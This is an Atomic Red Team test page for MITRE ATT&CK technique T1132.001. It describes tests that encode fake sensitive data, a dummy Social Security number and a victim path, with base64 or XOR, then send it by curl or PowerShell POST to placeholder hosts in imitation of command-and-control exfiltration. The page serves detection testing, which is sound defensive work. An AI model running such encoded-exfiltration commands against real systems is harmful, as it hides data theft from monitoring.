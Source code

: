 # T1132.001 - Data Encoding: Standard Encoding
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1132/001)
<blockquote>Adversaries may encode data with a standard data encoding system to make the content of command and control traffic more difficult to detect. Command and control (C2) information can be encoded using a standard data encoding system that adheres to existing protocol specifications. Common data encoding schemes include ASCII, Unicode, hexadecimal, Base64, and MIME.(Citation: Wikipedia Binary-to-text Encoding)(Citation: Wikipedia Character Encoding) Some data encoding systems may also result in data compression, such as gzip.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Base64 Encoded data.](#atomic-test-1---base64-encoded-data)

- [Atomic Test #2 - Base64 Encoded data (freebsd)](#atomic-test-2---base64-encoded-data-freebsd)

- [Atomic Test #3 - XOR Encoded data.](#atomic-test-3---xor-encoded-data)


<br/>

## Atomic Test #1 - Base64 Encoded data.
Utilizing a common technique for posting base64 encoded data.

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** 1164f70f-9a88-4dff-b9ff-dc70e7bf0c25





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| destination_url | Destination URL to post encoded data. | url | redcanary.com|
| base64_data | Encoded data to post using fake Social Security number 111-11-1111. | string | MTExLTExLTExMTE=|


#### Attack Commands: Run with `sh`! 


```sh
echo -n 111-11-1111 | base64
curl -XPOST #{base64_data}.#{destination_url}
```






<br/>
<br/>

## Atomic Test #2 - Base64 Encoded data (freebsd)
Utilizing a common technique for posting base64 encoded data.

**Supported Platforms:** Linux


**auto_generated_guid:** 2d97c626-7652-449e-a986-b02d9051c298





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| destination_url | Destination URL to post encoded data. | url | redcanary.com|
| base64_data | Encoded data to post using fake Social Security number 111-11-1111. | string | MTExLTExLTExMTE=|


#### Attack Commands: Run with `sh`! 


```sh
echo -n 111-11-1111 | b64encode -r -
curl -XPOST #{base64_data}.#{destination_url}
```




#### Dependencies:  Run with `sh`!
##### Description: Requires curl
##### Check Prereq Commands:
```sh
if [ -x "$(command -v curl)" ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```sh
pkg install -y curl
```




<br/>
<br/>

## Atomic Test #3 - XOR Encoded data.
XOR encodes the data with a XOR key.
Reference - https://gist.github.com/loadenmb/8254cee0f0287b896a05dcdc8a30042f

**Supported Platforms:** Windows


**auto_generated_guid:** c3ed6d2a-e3ad-400d-ad78-bbfdbfeacc08





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| destination_url | Destination URL to post encoded data. | url | example.com|
| plaintext | Plain text mimicking victim data sent to C2 server. | string | Path&#92;n----&#92;nC:&#92;Users&#92;victim|
| key | XOR key used for encoding the plaintext. | string | abcdefghijklmnopqrstuvwxyz123456|


#### Attack Commands: Run with `powershell`! 


```powershell
$plaintext = ([system.Text.Encoding]::UTF8.getBytes("#{plaintext}"))
$key = "#{key}"
$cyphertext =  @();
for ($i = 0; $i -lt $plaintext.Count; $i++) {
 $cyphertext += $plaintext[$i] -bxor $key[$i % $key.Length];
}
$cyphertext = [system.Text.Encoding]::UTF8.getString($cyphertext)
[System.Net.ServicePointManager]::Expect100Continue = $false
Invoke-WebRequest -Uri #{destination_url} -Method POST -Body $cyphertext -DisableKeepAlive
```






<br/>
